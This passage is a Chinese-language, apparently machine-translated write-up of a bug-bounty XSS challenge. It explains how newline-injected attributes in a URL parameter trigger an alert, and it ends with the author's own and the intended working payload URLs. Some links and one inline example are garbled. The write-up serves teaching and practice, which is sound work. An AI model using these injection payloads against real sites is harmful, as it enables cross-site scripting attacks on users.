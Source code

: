 有了这个有效负载，我期望页面重定向到`Javascript:alert(1);`，但看起来情况并非如此。相反，我刚刚解决了我们的问题 3。正如我们在控制台中看到的，有一个意外的标记“:”。

原来我们并不需要`Javascript:alert(1)`，但是我们可以用任何东西代替它，只要它有下面的结构:`string:random-chars`。

> *注意:* `*Javascript:alert(1)*` *如果把* `*//*` *放在后面就可以了。例如:*[*https://javascript.challenge-0121.intigriti.io/?
> r = Javascript:alert(1)//% 0aid = origin*](https://javascript.challenge-0121.intigriti.io/?r=Javascript:alert(1)//%0aid=origin)

由于错误现在显示为一个块，我们可以注入类似`onmouseover=alert(1)`的东西。我认为这是一个意想不到的解决方案，因为将鼠标悬停在 URL 上仍然是用户交互，但后来我想到了添加一个非常大的填充。

现在，将鼠标悬停在屏幕上的任何位置都会执行警报！

当我们现在回到我们的问题列表时，我们看到我们实际上不需要解决问题 1，对字符串`javascript`的检查只是在那里，所以我们可以删除`window.origin`。然后，我们使用问题 2 的解决方案将标志字符串传递给警报，问题 3 的解决方案注入到`a`标签中，问题 4 和 5 的解决方案注入到`window.origin`中并防止重定向。

# 解决方案

## 我的意见:

```
[https://javascript.challenge-0121.intigriti.io/?r=a:b;%0aid=origin%0aonmouseover=alert(`{THIS_IS_THE_FLAG}`)%0astyle=padding:800000px](https://javascript.challenge-0121.intigriti.io/?r=Javascript:alert(1);%0aid=origin%0aonmouseover=alert(%60%7BTHIS_IS_THE_FLAG%7D%60)%0aonchange=alert(1)%0astyle=padding:800000px);
```

## 预定方式:

```
[*https://javascript.challenge-0121.intigriti.io/?r=Javascript:alert(*](https://javascript.challenge-0121.intigriti.io/?r=Javascript:alert(1)//%0aid=origin)[`{THIS_IS_THE_FLAG}`](https://javascript.challenge-0121.intigriti.io/?r=Javascript:alert(1);%0aid=origin%0aonmouseover=alert(%60%7BTHIS_IS_THE_FLAG%7D%60)%0aonchange=alert(1)%0astyle=padding:800000px)[*)//%0aid=origin*](https://javascript.challenge-0121.intigriti.io/?r=Javascript:alert(1)//%0aid=origin)
```

感谢阅读！我希望你喜欢它！